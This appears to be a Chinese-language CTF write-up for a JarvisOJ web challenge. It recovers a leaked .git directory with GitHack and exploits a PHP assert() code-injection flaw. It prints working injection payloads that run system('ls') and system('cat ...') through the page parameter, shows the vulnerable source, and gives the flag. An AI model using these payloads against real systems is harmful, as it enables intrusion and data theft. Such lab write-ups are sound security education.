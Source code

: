 ## 描述

题目入口：http://web.jarvisoj.com:32798/

Hint1: 此题缺少关键解题文件的问题已修复。

## 题解

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="utf-8">
		<meta http-equiv="X-UA-Compatible" content="IE=edge">
		<meta name="viewport" content="width=device-width, initial-scale=1">

		<title>My PHP Website</title>

		<link rel="stylesheet" href="http://libs.baidu.com/bootstrap/3.0.3/css/bootstrap.min.css" />
	</head>
	<body>
		<nav class="navbar navbar-inverse navbar-fixed-top">
			<div class="container">
		    	<div class="navbar-header">
		    		<button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">
		            	<span class="sr-only">Toggle navigation</span>
		            	<span class="icon-bar"></span>
		            	<span class="icon-bar"></span>
		            	<span class="icon-bar"></span>
		          	</button>
		          	<a class="navbar-brand" href="#">Project name</a>
		        </div>
		        <div id="navbar" class="collapse navbar-collapse">
		          	<ul class="nav navbar-nav">
		            	<li class="active"><a href="?page=home">Home</a></li>
		            	<li ><a href="?page=about">About</a></li>
		            	<li ><a href="?page=contact">Contact</a></li>
						<!--<li ><a href="?page=flag">My secrets</a></li> -->
		          	</ul>
		        </div>
		    </div>
		</nav>

		<div class="container" style="margin-top: 50px">
			<h1 style="text-align: center">欢迎来到我的网站！<br></h1>
<br/>
<p>您可以使用上面的链接浏览页面！</p>
		</div>
		<script src="http://code.jquery.com/jquery-latest.js" />
		<script src="http://libs.baidu.com/bootstrap/3.0.3/js/bootstrap.min.js" />
	</body>
</html>
```

`?page=home` 这种操作特别可疑。。是不是能注入。。尝试一下。http://web.jarvisoj.com:32798/?page=gg 得到了

```
That file doesn't exist!
```

没啥用。突然发现注释里有一句 `<!--<li ><a href="?page=flag">My secrets</a></li> -->`，尝试一下 http://web.jarvisoj.com:32798/?page=flag 得到一个空白页面

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="utf-8">
		<meta http-equiv="X-UA-Compatible" content="IE=edge">
		<meta name="viewport" content="width=device-width, initial-scale=1">

		<title>My PHP Website</title>

		<link rel="stylesheet" href="http://libs.baidu.com/bootstrap/3.0.3/css/bootstrap.min.css" />
	</head>
	<body>
		<nav class="navbar navbar-inverse navbar-fixed-top">
			<div class="container">
		    	<div class="navbar-header">
		    		<button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">
		            	<span class="sr-only">Toggle navigation</span>
		            	<span class="icon-bar"></span>
		            	<span class="icon-bar"></span>
		            	<span class="icon-bar"></span>
		          	</button>
		          	<a class="navbar-brand" href="#">Project name</a>
		        </div>
		        <div id="navbar" class="collapse navbar-collapse">
		          	<ul class="nav navbar-nav">
		            	<li ><a href="?page=home">Home</a></li>
		            	<li ><a href="?page=about">About</a></li>
		            	<li ><a href="?page=contact">Contact</a></li>
						<!--<li class="active"><a href="?page=flag">My secrets</a></li> -->
		          	</ul>
		        </div>
		    </div>
		</nav>

		<div class="container" style="margin-top: 50px">
					</div>
		<script src="http://code.jquery.com/jquery-latest.js" />
		<script src="http://libs.baidu.com/bootstrap/3.0.3/js/bootstrap.min.js" />
	</body>
</html>
```

和前面的区别不大。header 也没看出有啥有用的信息。折腾了一会只能取看题解。

woc？git 泄露？？我当时看到用了 git 我就怀疑是不是这玩意出问题了，但是我尝试的是 http://web.jarvisoj.com:32798/?page=.git 。。。还是太年轻

Git 泄露详细介绍：https://www.freebuf.com/sectool/66096.html

这个故事告诉我们，不要将 .git 部署上去！现成有方便的工具，可以直接 hack，见 https://github.com/lijiejie/GitHack 下载之后直接 `python Githack http://web.jarvisoj.com:32798/.git/` 就得到了这些文件

```
index.php
templates/about.php
templates/contact.php
templates/flag.php
templates/home.php
```

看了下，`template` 文件夹下的文件没啥有用的信息，`flag.php` 只有如下代码

```php
<?php
// TODO
//$FLAG = '';
?>
```

而 `index.php` 为

```php
<?php
if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}
$file = "templates/" . $page . ".php";
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");
assert("file_exists('$file')") or die("That file doesn't exist!");
?>
<!DOCTYPE html>
<html>
	<head>
		<meta charset="utf-8">
		<meta http-equiv="X-UA-Compatible" content="IE=edge">
		<meta name="viewport" content="width=device-width, initial-scale=1">

		<title>My PHP Website</title>

		<link rel="stylesheet" href="http://libs.baidu.com/bootstrap/3.0.3/css/bootstrap.min.css" />
	</head>
	<body>
		<nav class="navbar navbar-inverse navbar-fixed-top">
			<div class="container">
		    	<div class="navbar-header">
		    		<button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">
		            	<span class="sr-only">Toggle navigation</span>
		            	<span class="icon-bar"></span>
		            	<span class="icon-bar"></span>
		            	<span class="icon-bar"></span>
		          	</button>
		          	<a class="navbar-brand" href="#">Project name</a>
		        </div>
		        <div id="navbar" class="collapse navbar-collapse">
		          	<ul class="nav navbar-nav">
		            	<li <?php if ($page == "home") { ?>class="active"<?php } ?>><a href="?page=home">Home</a></li>
		            	<li <?php if ($page == "about") { ?>class="active"<?php } ?>><a href="?page=about">About</a></li>
		            	<li <?php if ($page == "contact") { ?>class="active"<?php } ?>><a href="?page=contact">Contact</a></li>
						<!--<li <?php if ($page == "flag") { ?>class="active"<?php } ?>><a href="?page=flag">My secrets</a></li> -->
		          	</ul>
		        </div>
		    </div>
		</nav>

		<div class="container" style="margin-top: 50px">
			<?php
				require_once $file;
			?>
		</div>
		<script src="http://code.jquery.com/jquery-latest.js" />
		<script src="http://libs.baidu.com/bootstrap/3.0.3/js/bootstrap.min.js" />
	</body>
</html>
```

注意到 `assert("strpos('$file', '..') === false") or die("Detected hacking attempt!")` 这句话，查了一下 `strpos`，感觉可以拼接一下，但是自己不熟悉 PHP，只能去看题解。

然后发现 woc，这玩意搞一下可以执行任何 PHP 命令？？构造 `$file='.system('ls').'`，意思就是用 `.` 来拼接 `system` 的返回结果，惊呼 woc。

`http://web.jarvisoj.com:32798/?page='.system('ls').'`

返回了

`index.php templates index.php templates That file doesn't exist!`

继续来

`http://web.jarvisoj.com:32798/?page='.system('cat templates/flag.php').'`

得到

```php
<?php
// TODO
//$FLAG = '61dctf{8e_careful_when_us1ng_ass4rt}';
?>
<?php
// TODO
//$FLAG = '61dctf{8e_careful_when_us1ng_ass4rt}';
?>
That file doesn't exist!
```

## 答案

61dctf{8e_careful_when_us1ng_ass4rt}
